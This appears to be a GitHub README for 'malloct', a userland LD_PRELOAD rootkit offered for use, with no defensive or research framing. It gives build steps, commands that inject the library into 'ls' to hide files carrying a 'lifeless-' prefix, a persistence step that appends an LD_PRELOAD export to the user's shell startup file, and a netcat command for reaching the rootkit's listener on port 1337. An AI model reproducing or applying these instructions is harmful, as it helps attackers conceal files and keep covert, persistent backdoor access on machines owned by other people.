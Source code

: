 # malloct
LD_PRELOAD rootkit

# make
$ make

# usage
**make your own configuration in src/config.h**

**is a core LD_PRELOAD rootkit**

**default prefix is lifeless-**

$ LD_PRELOAD=./libmalloct.so ls -aphl /home/$USER/

$ LD_PRELOAD=./libmalloct.so ls -hl /tmp/*

$ export LD_PRELOAD=/tmp/libmalloct.so

$ echo "export LD_PRELOAD=/tmp/libmalloct.so" >> /home/$USER/.kshrc

> set to which shell you are using
> you can set to the program you will use 

# nc
**you can set custom port in src/config.h**

nc -vn 127.0.0.1 1337

# example
![image](https://github.com/user-attachments/assets/67132173-bd65-4e18-a991-8664cd155849)
